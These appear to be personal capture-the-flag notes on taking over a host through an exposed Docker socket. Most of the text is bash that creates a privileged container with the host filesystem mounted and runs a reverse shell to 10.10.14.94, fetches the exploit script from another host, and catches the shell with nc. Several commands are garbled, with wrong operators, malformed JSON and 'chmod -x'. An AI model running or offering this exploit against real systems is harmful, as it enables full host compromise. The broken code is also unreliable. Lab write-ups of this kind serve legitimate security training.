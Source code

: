 ```bash
# get the root account
cat todo.txt

cat ./bash_history
curl -s --unix-socket /var/run/docker.sock http://localhost/image/json
# docker is accessible
# can run curl with unix socket to communicate with docker.sock
# Docker.sock allow us to create docker

```

Docker.sock exploit
- Node takeover

- mount the host/fileystem on the new container
- container execute command whrn started
- we can mount the root ds and execute recerse shell when teh container is started
- `Engine API v1.24`


```bash
# tab1:
vim exploitsock.sh
# ----------------
#!/bin/bash
# the command executed when the container is started
# change dir to tmp where the rootfs is mount and execute reverse shell
cmd-"[\"/bin/sh\",\"-c\",\"chroot /tmp sh -c \\\"bash -c 'bash -i >& /dev/tcp/10.10.14.94/9898 0>&1'\\\"\"]"

# create the container and execute command, bind the root filesystem to it
# name the container 'na5c4r_root'
# -d: detached
curl -s -X POST --unix-socket /var/run/docker.sock -d "{\"Image:\":\"sandbox\",\"cmd\":$cmd.\"Binds\":[\"/:tmp:rw\"]}" -H 'Content-Type: application/json' http://localhost/containers/create?name=na5c4r_root


# start the container
curl -s -X POST --unix-socket /var/run/docker.sock -d "http://localhost/containers/na5c4r_root/start"
# ----------------


# open a server
pyserver


# tab2: Tomcat
mkdir .na5c4r
curl http://10.10.10.10/exploitsock.sh -o exploitsock.sh
chmod -x exploitsock.sh
bash exploitsock.sh



# tab3:
nc -lvnp 9898
cat root.txt | cut -c1-20


```
